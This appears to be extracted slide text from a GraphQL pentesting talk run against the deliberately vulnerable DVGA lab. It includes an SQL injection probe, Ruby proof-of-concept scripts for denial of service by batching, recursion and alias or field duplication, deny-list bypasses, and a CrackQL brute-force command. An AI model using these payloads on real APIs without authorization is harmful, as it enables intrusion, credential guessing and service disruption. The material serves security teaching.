



type Project { name: String tagline: String contributors: [User] }
{ project(name: "GraphQL") { tagline } }
equiv.
SELECT tagline FROM project where name = "GraphQL"
{ "project": { "tagline": "A query language for APIs" } }
{ hero { name } }
{ "hero": { "name": "Luke Skywalker" } }
{ hero { name height } }
{ "hero": { "name": "Luke Skywalker", "height": 1.72 } }
With REST:
GET /hero/0
{ "name": "Luke Skywalker", "height": 1.72, "mass": 77, "address": "Galaxy du Centaure" }
query { User(id: 1337) { name posts { title } followers(last: 3) { name } } }
{ "data": { "User": { "name": "noraj", "posts": [ { "title": "From cookie flag to DA" }, { "title": "Why you shouldn't disable IPv6" } ], "followers": [ { "name": "Alice" }, { "name": "Bob" } { "name": "Carole" } ] } }
REST query n°1
GET /users/1337
{ "user": { "id": 1337, "name": "noraj", "address": {...}, "birthday": "30/02/1979" } }
REST query n°2
GET /users/1337/posts
{ "posts": [{ "id": 5542, "title": "From cookie flag to DA", "content": "...", "comments": [...] }, { "id": 5543, "title": "Why you shouldn't disable IPv6", "content": "...", "comments": [...] }] }
REST query n°3
GET /users/1337/followers
{ "followers": [{ "id": 1338, "name": "Alice", "address": {...}, "birthday": "01/05/1979" },{ "id": 1339, "name": "Bob", "address": {...}, "birthday": "15/07/1978" },{...}] }
Found on OWASP VWAD:
$ git clone https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application.git dvga && cd dvga $ docker build -t dvga . $ docker run -t -p 5013:5013 -e WEB_HOST=0.0.0.0 --name dvga dvga
$ cat /etc/hosts | grep .test 127.0.0.2 noraj.test
Verify: curl http://noraj.test:5013/graphql
curl http://noraj.test:5013/graphql
Now let's put in practice Escape Pentesting GraphQL 101 series.
graphql
query { __typename }
{ "data": { "__typename": "Query" } }
mutation { __typename }
{ "data": { "__typename": "Mutations" } }
GraphQL mutation ~ PUT for REST
PUT
Looking for the execution time of the query can be helpful to detect DoS attacks
query { title1: __typename title2: __typename title3: __typename title4: __typename title5: __typename }
Several queries in one query.
{ "data": { "title1": "Query", "title2": "Query", "title3": "Query", "title4": "Query", "title5": "Query" } }
query { noraj }
{ "errors": [ { "message": "Cannot query field \"noraj\" on type \"Query\".", "locations": [ { "line": 2, "column": 3 } ] } ] }
With gRPC there can be Reflection enabled that allow you to retrieve the prototype and list services.
Eg. with grpcurl:
# Server supports reflection grpcurl localhost:8787 list
With GraphQL there is not such an easy thing to get the schema but there is something similar called introspection.
{ __schema { queryType { fields { name } } } }
Full introspection query to get all queries, mutations, fields, etc.
Or this one that is compatible with GraphQL Voyager.
Did you see the size of the scrollbar? Will you read that?
No of course, but you can visualize that with GraphQL Voyager!
Ok a basic security measure is to disable introspection, so how to get schema when it is disabled?
We'll abuse of error suggestions: did you mean.
did you mean
query { past }
{ "errors": [ { "message": "Cannot query field \"past\" on type \"Query\". Did you mean \"paste\" or \"pastes\"?", "locations": [ { "line": 3, "column": 2 } ] } ] }
We can automate this with Clairvoyance.
clairvoyance -o /tmp/dvga-schema.json http://noraj.test:5013/graphql \ # -w /usr/lib/python3.10/site-packages/clairvoyance/wordlist.txt # /usr/share/seclists/Miscellaneous/lang-english.txt is too heavy, # ~350k entries while default clairvoyance WL is ~10k # english-words is ~5k entries sudo -E wordlistctl fetch -d english-words clairvoyance -o /tmp/dvga-schema.json http://noraj.test:5013/graphql \ -w /usr/share/wordlists/misc/english-words.10.txt # /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt # is ~38k and full of garbage # else build a custom wordlist
graphql-path-enum lists the different ways of reaching a given type in a GraphQL schema.
$ graphql-path-enum -i /tmp/introspection-response.json -t OwnerObject Found 3 ways to reach the "OwnerObject" node: - Query (pastes) -> PasteObject (owner) -> OwnerObject - Query (paste) -> PasteObject (owner) -> OwnerObject - Query (readAndBurn) -> PasteObject (owner) -> OwnerObject
Often the GraphQL endpoint will be /graphql or /v1/graphql. It's generally not hard to find but else you can try detected the endpoint with graphw00f.
/graphql
/v1/graphql
$ graphw00f -d -t http://noraj.test:5013 [*] Checking http://noraj.test:5013/ [*] Checking http://noraj.test:5013/graphql [!] Found GraphQL at http://noraj.test:5013/graphql
Identify GraphQL engine.
$ graphw00f -f -t http://noraj.test:5013/graphql [*] Checking if GraphQL is available at http://noraj.test:5013/graphql... [!] Found GraphQL. [*] Attempting to fingerprint... [*] Discovered GraphQL Engine: (Graphene) [!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md [!] Technologies: Python [!] Homepage: https://graphene-python.org [*] Completed.

Blocking access to character object?

Five locations have to be blocked:
character
characters
results
resident
Location
Episode

It's prone to error. If you forget one place...
For example, for a website, you are not authorized to view other users info (client object) but you can access the client filed of the comments object.
client
comments
It's allow authorization bypass.
GraphQL API often fetch data from a DB.
Where to inject in order to detect a SQLi?
The only injectable inputs are Arguments.
query { user(name: "' or 1=1 --") { id email } }
GraphQL query:
{ systemUpdate }
HTTP request:
POST /graphql HTTP/1.1 ... Content-Type: application/json {"query":"{\n\tsystemUpdate\n}"}
Most GraphQL client don't support batch query, they often have a mode to select one or another but won't send both on the HTTP JSON. So we'll have to craft the HTTP request ourselves.
Ruby PoC for batch querying:
require 'httpx' data = Array.new(3) { { 'query' => 'query { systemUpdate }'} } HTTPX .plugin(:proxy) .with_proxy(uri: 'http://127.0.0.1:8080') .with(timeout: { operation_timeout: 120 }) .post('http://noraj.test:5013/graphql', json: data)
systemUpdate
HTTP request body:
[ { "query": "query { systemUpdate }" }, { "query": "query { systemUpdate }" }, { "query": "query { systemUpdate }" } ]
Possible when there is a circular reference
Ruby PoC for deep recursion:
require 'httpx' nesting_level = 10 recursion_pattern = 'pastes{owner{' fields = 'name' payload = recursion_pattern * nesting_level + fields + '}}' * nesting_level data = { 'query' => "query{#{payload}}"} HTTPX .plugin(:proxy) .with_proxy(uri: 'http://127.0.0.1:8080') .with(timeout: { operation_timeout: 120 }) .post('http://noraj.test:5013/graphql', json: data)
query { pastes { ipAddr # 1 ipAddr # 2 # ... ipAddr # 1000 } }
Ruby PoC for field duplication:
require 'httpx' copy_level = 6000 copy_pattern = 'ipAddr,' payload = copy_pattern * copy_level data = { 'query' => "query{pastes{#{payload}}}"} HTTPX .plugin(:proxy) .with_proxy(uri: 'http://127.0.0.1:8080') .with(timeout: { operation_timeout: 120 }) .post('http://noraj.test:5013/graphql', json: data)
Alternative if batching is disabled.
query { q1: systemUpdate q2: systemUpdate q3: systemUpdate }
Ruby PoC for query aliases duplication:
require 'httpx' copy_level = 3 query = 'systemUpdate' payload = (1..copy_level).map { |i| "q#{i}:#{query}" }.join(',') data = { 'query' => "query{#{payload}}"} HTTPX .plugin(:proxy) .with_proxy(uri: 'http://127.0.0.1:8080') .with(timeout: { operation_timeout: 120 }) .post('http://noraj.test:5013/graphql', json: data)
The Spread operator (...) allows to reuse fragments. It's like a mixin.
...
fragment smallPaste on PasteObject { id title content } query allPastes { pastes { ...smallPaste } } query allPastesWithStatus { pastes { public ...smallPaste } }
But what if we create a loop?
fragment noraj on PasteObject { title content ...jaron } fragment jaron on PasteObject { content title ...noraj } query { ...noraj }
PS: the query is not even needed
Result:
Direct query:
query { systemHealth }
{ "errors": [ { "message": "400 Bad Request: Query is on the Deny List.", "locations": [ { "line": 2, "column": 2 } ], "path": [ "systemHealth" ] } ], "data": { "systemHealth": null } }
Query with custom operation name:
query random { systemHealth }
{ "errors": [ { "message": "400 Bad Request: Operation Name \"random\" is not allowed.", "locations": [ { "line": 2, "column": 2 } ], "path": [ "systemHealth" ] } ], "data": { "systemHealth": null } }
Bypass blacklist but not whitelist.
Query with allowed operation name:
query getPastes { systemHealth }
{ "data": { "systemHealth": "System Load: 2.54\n" } }
Bypass both (poorly written) blacklist and whitelist.
query { q1:systemHealth }
Aliases too could bypass filters.
Content-Type: application/json application/x-www-form-urlencoded
application/json
application/x-www-form-urlencoded
Mostly useful for mutations
Many other vulnerabilities that are not necessarily specific to GraphQL.
graphql-cop - GraphQL vulnerability scanner
CrackQL - GraphQL password brute-force and fuzzing utility
mutation { login(username: {{username|str}}, password: {{password|str}}) { accessToken } }
crackql -t http://noraj.test:5013/graphql -q login.graphql -i usernames_and_passwords.csv
GraphQLmap - scripting engine to interact with a graphql endpoint
GraphQL Threat Matrix - resource that list the differences in how GraphQL implementations interpret and conform to the GraphQL specification
InQL - (CLI tool and) Burp extension for GraphQL